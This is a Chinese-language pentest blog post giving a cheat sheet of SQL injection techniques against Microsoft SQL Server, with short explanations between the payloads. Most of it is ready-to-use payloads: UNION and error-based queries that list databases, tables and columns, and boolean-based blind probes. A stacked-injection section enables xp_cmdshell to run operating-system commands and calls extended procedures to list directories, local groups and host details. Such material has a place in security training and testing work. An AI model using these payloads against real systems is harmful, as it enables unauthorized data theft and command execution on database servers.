 +++
title = "SQL注入tips(SQL Server)"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2018-09-04 10:45:01
 * @LastEditTime: 2019-12-11 13:28:22
 -->
### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 UNION query & error-based 注入
* 判断存在注入

```
and 1=1/and 1=2
```
```sql
select * from msg where id=1 and 11=(select case when(1=1) then 11 else 2 end);

select * from msg where id=1 and 11=(select case when(1=2) then 11 else 2 end);
```

* 判断是否为sa权限

```sql
select name from msg where id=1 and 1=convert(int,(select is_srvrolemember('sysadmin')));
```

![55](/img/post/20180904-105516.png)

* 得到所有数据库名字
![75](/img/post/20180904-110306.png)

```sql
--得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=8);

--通过 not in 依次得到数据库名
id=1 and 0<>(select top 1 name from master.dbo.sysdatabases where dbid>6 and name not in (select top 1 name from master.dbo.sysdatabases where dbid>6))
id=1 and 0<>(select top 1 name from master.dbo.sysdatabases where dbid>6 and name not in (select top 2 name from master.dbo.sysdatabases where dbid>6))
```

![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```sql
--得到数据库test的第一张表
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表方法一
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
--得到数据库test的第二张表方法二
id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in (select top 1 name from test.dbo.sysobjects where xtype='U');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名
    * 可以分两步：先得到article的表id，然后得到列名
    ![60](/img/post/20180904-112859.png)
    ![75](/img/post/20180904-112938.png)

    * <f>也可直接一条命令直接得到列信息</f>
    ```
    select id,name from syscolumns where id=(select id from sysobjects where name='msg');
    ```

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x02 boolean-based blind 注入
```sql
?id=1 and substring(db_name(),1,1)='a' --
?id=1 and substring(db_name(),1,1)='b' --
```

```sql
-- 转换为数字
?id=1 and unicode(substring((select db_name()),1,1))>88 --
?id=1 and ascii(substring((select db_name()),1,1))>88 --
```

```sql
-- 转换为16进制
id=1 and (select master.dbo.fn_varbintohexstr(CONVERT(varbinary(30),(substring(db_name(),1,1)))) from master..sysdatabases where dbid=1) not in ('0x7400')
```

### 0x03 Stacked 注入
* 执行系统命令

```bash
#判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

#开启xp_cmdshell
?id=1;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--

#使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```
